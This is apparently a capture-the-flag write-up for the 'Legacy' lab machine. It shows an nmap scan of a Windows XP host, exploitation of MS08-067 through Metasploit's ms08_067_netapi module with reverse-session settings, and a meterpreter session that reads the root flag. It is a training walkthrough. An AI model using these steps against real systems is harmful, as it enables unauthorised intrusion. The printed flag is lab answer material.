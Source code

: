 ![Image](/assets/Legacy.png)

Legacy is a very easy machine emphasizing the importance of keeping an OS up to date.
### Service Enumeration
Our script: `nmap -sV -sC --open -p- 10.10.10.4`

Our scan:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-02 21:28 EDT
Nmap scan report for 10.10.10.4
Host is up (0.14s latency).
Not shown: 65531 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:2f:34 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-09-08T06:27:05+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.25 seconds

```

We gather a hostname and see we're running Windows XP 2000. Upon research, we learn about a remote code execution vulnerability disclosed in 2008, MS08-067.

### Initial Access
We can search metasploit for our module, using `search MS08_067`. We'll see the only valid option being listed as the first. We'll equip the exploit: `use exploit/windows/smb/ms08_067_netapi`, and we'll set our parameters for the attack.

```
RHOSTS: 10.10.10.4
RPORT: 445
LHOST: 10.0.2.15
LPORT: 4444
```

Now, we'll execute.

![Image](/assets/Screenshot 2024-09-02 at 9.54.17 PM.png)

### Post Exploitation

Once in, we can root around. I've included the entire code block below to show the raw data!

```
meterpreter > cd ../
meterpreter > ls
Listing: C:\
============

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  0       fil   2017-03-16 01:30:44 -0400  AUTOEXEC.BAT
100666/rw-rw-rw-  0       fil   2017-03-16 01:30:44 -0400  CONFIG.SYS
040777/rwxrwxrwx  0       dir   2017-03-16 02:07:20 -0400  Documents and Settings
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  IO.SYS
100444/r--r--r--  0       fil   2017-03-16 01:30:44 -0400  MSDOS.SYS
100555/r-xr-xr-x  47564   fil   2008-04-13 16:13:04 -0400  NTDETECT.COM
040555/r-xr-xr-x  0       dir   2017-12-29 15:41:18 -0500  Program Files
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:59 -0400  System Volume Information
040777/rwxrwxrwx  0       dir   2022-05-18 08:10:06 -0400  WINDOWS
100666/rw-rw-rw-  211     fil   2017-03-16 01:26:58 -0400  boot.ini
100444/r--r--r--  250048  fil   2008-04-13 18:01:44 -0400  ntldr
000000/---------  0       fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cd Documents\ and\ Settings\\
meterpreter > ls
Listing: C:\Documents and Settings
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2017-03-16 02:07:21 -0400  Administrator
040777/rwxrwxrwx  0     dir   2017-03-16 01:29:48 -0400  All Users
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:37 -0400  Default User
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:52 -0400  LocalService
040777/rwxrwxrwx  0     dir   2017-03-16 01:32:43 -0400  NetworkService
040777/rwxrwxrwx  0     dir   2017-03-16 01:33:42 -0400  john

meterpreter > cd Administrator\\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator
================================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:29 -0400  Application Data
040777/rwxrwxrwx  0       dir   2017-03-16 01:32:27 -0400  Cookies
040777/rwxrwxrwx  0       dir   2017-03-16 02:18:27 -0400  Desktop
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:32 -0400  Favorites
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  Local Settings
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  My Documents
100666/rw-rw-rw-  786432  fil   2022-05-28 06:28:03 -0400  NTUSER.DAT
100666/rw-rw-rw-  1024    fil   2024-09-07 23:51:00 -0400  NTUSER.DAT.LOG
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  NetHood
040777/rwxrwxrwx  0       dir   2017-03-16 01:20:48 -0400  PrintHood
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:31 -0400  Recent
040555/r-xr-xr-x  0       dir   2017-03-16 02:07:24 -0400  SendTo
040555/r-xr-xr-x  0       dir   2017-03-16 01:20:48 -0400  Start Menu
040777/rwxrwxrwx  0       dir   2017-03-16 01:28:41 -0400  Templates
100666/rw-rw-rw-  178     fil   2022-05-28 06:28:03 -0400  ntuser.ini

meterpreter > cd Desktop\\
meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt 
993442d258b0e0ec917cae9e695d5713
```
#easy #windows #msfconsole 